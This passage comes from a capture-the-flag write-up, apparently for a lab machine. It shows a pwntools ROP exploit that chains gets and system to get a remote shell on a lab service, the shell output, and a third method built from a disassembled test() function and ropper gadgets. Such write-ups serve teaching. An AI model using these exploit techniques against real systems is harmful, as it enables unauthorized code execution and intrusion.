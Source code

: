     payload = junk + pop_rdi + binsh + plt_gets + pop_rdi + binsh + plt_system

    p = remote("10.10.10.147", 1337)
    p.recvline()
    p.sendline(payload)
    p.sendline('/bin/sh\x00')
    p.interactive()



And it gets a shell:



    root@kali# ./pwn_safe-m2.py 
    [+] Opening connection to 10.10.10.147 on port 1337: Done
    [*] Switching to interactive mode
    $ id
    uid=1000(user) gid=1000(user) groups=1000(user),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),108(netdev),112(bluetooth)



#### Method 3: test

The third method relies on the `test()` function that is never called
but is still in the code:



    gdb-peda$ disassemble test 
    Dump of assembler code for function test:
       0x0000000000401152 <+0>:     push   rbp
       0x0000000000401153 <+1>:     mov    rbp,rsp
       0x0000000000401156 <+4>:     mov    rdi,rsp
       0x0000000000401159 <+7>:     jmp    r13
       0x000000000040115c <+10>:    nop
       0x000000000040115d <+11>:    pop    rbp
       0x000000000040115e <+12>:    ret    
    End of assembler dump.



If I can get the address of `system` into R13 and `/bin/sh` onto the top
of the stack, then calling `test()` will give a shell. I'll use `ropper`
to find a gadget to POP R13:



    root@kali# ropper -f myapp | grep r13
    [INFO] Load gadgets from cache
    [LOAD] loading... 100%
    [LOAD] removing double gadgets... 100%
    0x0000000000401204: pop r12; pop r13; pop r14; pop r15; ret; 
    0x0000000000401206: pop r13; pop r14; pop r15; ret; 
    0x0000000000401203: pop rbp; pop r12; pop r13; pop r14; pop r15; ret; 
    0x0000000000401205: pop rsp; pop r13; pop r14; pop r15; ret; 



The second one works, and I'll just pop nulls in to R14 and R15. The
rest of the addresses I can get from the previous examples, to create
this exploit:
